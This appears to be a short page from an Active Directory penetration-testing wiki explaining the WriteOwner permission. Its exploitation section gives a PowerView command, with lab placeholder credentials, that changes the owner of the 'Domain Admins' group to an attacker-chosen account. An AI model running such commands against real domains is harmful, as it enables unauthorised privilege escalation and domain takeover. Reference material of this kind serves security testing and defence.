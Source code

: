 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WriteOwner

## Information

This permission has the ability to modify the owner of the user, i.e, give the [`Owns`](owns.md) permission, which can then being used to modify object security descriptors, regardless of permissions on the object's DACL.

## Exploitation

{% code overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\\dfm.a', $SecPassword)
# Set the ownership of the target object with PowerView
Set-DomainObjectOwner -Credential $Cred -TargetIdentity "Domain Admins" -OwnerIdentity harmj0y
```
{% endcode %}

For subsequent exploitation steps check [`WriteDACL`](writedacl.md).
